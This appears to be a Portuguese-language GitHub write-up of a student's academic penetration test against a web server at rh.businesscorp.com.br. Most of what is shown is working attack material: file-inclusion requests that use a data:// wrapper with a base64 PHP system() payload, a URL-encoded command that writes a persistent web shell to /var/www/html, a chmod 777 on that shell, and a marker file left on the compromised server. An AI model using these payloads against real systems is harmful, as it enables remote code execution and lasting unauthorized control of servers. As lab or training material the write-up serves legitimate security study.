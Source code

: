 
## ✍️ Mensagem Ética

Para assegurar que a atividade foi apenas acadêmica, foi deixada a seguinte mensagem no servidor:  

```
echo "Olá, meu nome é Luan. Não sou um hacker mal-intencionado, sou apenas um estudante da Faculdade IESGO.  
Meu GitHub é https://github.com/Luanqmata. Caso alguém encontre este arquivo, saiba que não tenho más intenções.  
Trata-se apenas de uma atividade acadêmica.  
Contato: calazanscybersec@gmail.com" > hacked_by_luan.txt
```

<p align="center">
  <img width="284" height="135" alt="image" src="https://github.com/user-attachments/assets/7bc73941-7650-47a3-a4b0-c9cc03927e7e" />
</p>

---

## 🖥️ Descobrindo o Caminho do Bash

- Comando para identificar o caminho do bash:

```
which bash
```

- Caminho identificado: `/bin/bash`

- Comando para apagar arquivos criados (use com cautela):

```
rm /var/www/html/nome_arquivo.php
```

---

## 📂 Criação do Arquivo de Prompt de Comando

Arquivo criado no diretório `/var/www/html` com o seguinte comando:

```
http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=echo%20'%3C?php%20echo%20%22%3Cform%20method%3DGET%3E%3Cinput%20type%3Dtext%20name%3Dcmd%20placeholder%3DDigite%20um%20comando%3E%3Cinput%20type%3Dsubmit%20value%3DExecutar%3E%3C/form%3E%3Cpre%3E%22%3B%20if(isset(%24_GET%5B%22cmd%22%5D))%20%7B%20system(%24_GET%5B%22cmd%22%5D)%3B%20%7D%20echo%20%22%3C/pre%3E%22%3B%20%3F%3E'%20%3E%20/var/www/html/web_shell.php
```

Aplicando permissões:

```
http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=chmod%20777%20/var/www/html/web_shell.php
```
